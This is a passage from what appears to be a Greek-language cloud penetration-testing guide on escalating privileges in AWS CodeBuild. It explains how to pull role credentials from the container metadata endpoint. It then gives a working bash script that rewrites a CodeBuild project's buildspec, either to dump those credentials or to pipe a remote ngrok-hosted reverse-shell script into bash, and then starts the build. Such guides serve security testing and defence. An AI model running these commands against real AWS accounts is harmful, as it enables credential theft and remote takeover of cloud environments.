 **Πιθανές Επιπτώσεις:** Άμεσο privesc σε οποιοδήποτε ρόλο AWS Codebuild.

{% hint style="warning" %}
Σε ένα **Codebuild container**, το αρχείο `/codebuild/output/tmp/env.sh` περιέχει όλες τις μεταβλητές περιβάλλοντος που χρειάζονται για να αποκτήσετε πρόσβαση στα **metadata credentials**.

Αυτό το αρχείο περιέχει τη **μεταβλητή περιβάλλοντος `AWS_CONTAINER_CREDENTIALS_RELATIVE_URI`** που περιέχει τη **διαδρομή URL** για να αποκτήσετε πρόσβαση στα credentials. Θα είναι κάτι σαν αυτό `/v2/credentials/2817702c-efcf-4485-9730-8e54303ec420`

Προσθέστε το στη διεύθυνση URL **`http://169.254.170.2/`** και θα μπορείτε να εξάγετε τα credentials του ρόλου.

Επιπλέον, περιέχει επίσης τη **μεταβλητή περιβάλλοντος `ECS_CONTAINER_METADATA_URI`** που περιέχει την πλήρη διεύθυνση URL για να αποκτήσετε **πληροφορίες metadata σχετικά με το container**.
{% endhint %}

### `iam:PassRole`, `codebuild:UpdateProject`, (`codebuild:StartBuild` | `codebuild:StartBuildBatch`)

Ακριβώς όπως στην προηγούμενη ενότητα, αν αντί να δημιουργήσετε ένα έργο κατασκευής μπορείτε να το τροποποιήσετε, μπορείτε να υποδείξετε τον IAM Ρόλο και να κλέψετε το token.
```bash
REV_PATH="/tmp/codebuild_pwn.json"

# Enumerate then env and get creds
REV="env\\\\n      - curl http://169.254.170.2\$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"

# Get rev shell
REV="curl https://reverse-shell.sh/4.tcp.eu.ngrok.io:11125 | bash"

# You need to indicate the name of the project you want to modify
JSON="{
\"name\": \"<codebuild-demo-project>\",
\"source\": {
\"type\": \"NO_SOURCE\",
\"buildspec\": \"version: 0.2\\\\n\\\\nphases:\\\\n  build:\\\\n    commands:\\\\n      - $REV\\\\n\"
},
\"artifacts\": {
\"type\": \"NO_ARTIFACTS\"
},
\"environment\": {
\"type\": \"LINUX_CONTAINER\",
\"image\": \"aws/codebuild/standard:1.0\",
\"computeType\": \"BUILD_GENERAL1_SMALL\"
},
\"serviceRole\": \"arn:aws:iam::947247140022:role/codebuild-CI-Build-service-role-2\"
}"

printf "$JSON" > $REV_PATH

aws codebuild update-project --cli-input-json file://$REV_PATH

aws codebuild start-build --project-name codebuild-demo-project
```
**Πιθανές Επιπτώσεις:** Άμεσο privesc σε οποιονδήποτε ρόλο AWS Codebuild.
